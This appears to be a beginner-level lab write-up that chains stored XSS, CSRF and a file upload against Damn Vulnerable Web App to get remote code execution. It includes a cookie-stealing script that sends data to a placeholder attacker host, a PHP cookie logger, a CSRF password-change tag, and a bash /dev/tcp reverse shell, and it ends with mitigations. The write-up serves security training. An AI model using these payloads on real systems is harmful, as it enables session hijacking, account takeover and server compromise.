 # Lab Report: DVWA - Chaining XSS, CSRF, and File Upload for RCE

## Executive Summary

**This engagement demonstrated how a chain of low-severity web application vulnerabilities can escalate to full system compromise. By exploiting Stored XSS, CSRF, and an insecure file upload mechanism, the lab achieved remote code execution (RCE) on the DVWA application.**

**The lab highlights the risk of chained attacks in web applications, where individually minor issues (e.g., XSS, CSRF) can combine to create a critical security breach. In a production environment, such vulnerabilities could allow attackers to steal session data, escalate privileges, and execute arbitrary commands on the server.**

---

## Key Takeaways / Skills Demonstrated

- Exploitation of Stored XSS for session hijacking.

- CSRF exploitation to force credential changes.

- File upload to achieve remote code execution.

- Demonstrates chaining of low-severity vulnerabilities for high-impact attacks.

---

- Lab Type: Web Application Exploitation  
- Skill Level: Beginner–Intermediate  
- Focus: XSS, CSRF, File Upload, RCE  
---
- **Author**: Eric Graham 
- **Date**: 07/28/2025
- **Target**: Damn Vulnerable Web App (DVWA) - `http://[DVWA_IP]`  
- **Security Level**: Low  

---

## Objectives
1. Exploit Stored XSS to steal admin cookies.
2. Use stolen cookies for session hijacking.
3. Chain CSRF to force a password change.
4. Upload a malicious PHP shell via file upload.
5. Achieve Remote Code Execution (RCE).

---

## Tools Used
- **Browser**: Firefox/Chrome + Developer Tools.
- **Burp Suite**: Intercepting/modifying requests.
- **Cookie Editor**: Injecting stolen session cookies.
- **Python HTTP Server**: Hosting malicious files.
- **Netcat**: Reverse shell listener.

---

## Step 1: Stored XSS to Cookie Theft
### Exploitation
1. Navigate to **DVWA → XSS (Stored)**.
2. Inject a malicious script to steal cookies:
   ```html
   <script>document.location='http://[ATTACKER_IP]/steal.php?cookie='+document.cookie</script>
   ```
3. Host a PHP server to capture cookies (`steal.php`):
   ```php
   <?php file_put_contents('cookies.txt', $_GET['cookie']); ?>
   ```
4. **Admin Trigger**: When an admin views the XSS-infected page, their cookies are sent to your server.

### Evidence
![cookie_steal_scrit](/screenshots/dvwa/cookie_steal_script.png)

![php server output](/screenshots/dvwa/server_cookietxt_steal.png)

---

## Step 2: Session Hijacking
### Exploitation
1. Use **Cookie Editor** to inject the stolen `PHPSESSID` and `security=low` cookies.
2. Refresh the page to gain admin access.

### Evidence
![cookie_editor](/screenshots/dvwa/cookie_hijack.png)

![dvwa hijacked login](/screenshots/dvwa/hijack_login.png)

---

## Step 3: CSRF to Force Password Change
### Exploitation
1. Craft a malicious HTML file (`csrf.html`):
   ```html
   <img src="http://[DVWA_IP]/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" width="0" height="0">
   ```
2. Host it on a Python server:
   ```bash
   python3 -m http.server 8000
   ```
3. Trick the admin into visiting `http://[ATTACKER_IP]:8000/csrf.html`.

### Evidence
![csrf email payload](/screenshots/dvwa/email_payload.png)

![python3](/screenshots/dvwa/server_rcvd_csrf.png)

![sql database](/screenshots/dvwa/database_pw_proof.png)

![Hashes.com](/screenshots/dvwa/pw_chng_proof.png)

---

## Step 4: File Upload to RCE
### Exploitation
1. Log in as admin (via hijacked session).
2. Navigate to **DVWA → File Upload**.
3. Upload a PHP reverse shell (`shell.php`):
   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1'"); ?>
   ```
4. Start a Netcat listener:
   ```bash
   nc -lvnp 4444
   ```
5. Access the uploaded shell at `http://[DVWA_IP]/hackable/uploads/shell.php`.

### Evidence
![netcat](/screenshots/dvwa/rev_shell_output.png)

---

## Mitigations
1. **XSS**: 
   - Sanitize user input with `htmlspecialchars()`.
   - Implement Content Security Policy (CSP).
2. **CSRF**: 
   - Use anti-CSRF tokens.
   - Require POST requests for sensitive actions.
3. **File Upload**: 
   - Restrict file extensions (e.g., block `.php`).
   - Store uploads outside the web root.

---

## Conclusion
This lab demonstrated how chaining low-severity vulnerabilities (XSS → CSRF → File Upload) can lead to **full system compromise**. Always validate inputs, enforce strict session controls, and audit file uploads.

---

**Appendix**:  
- [Full PHP reverse shell code]  
- [Burp Suite request/response samples]

---

~ Eric Graham
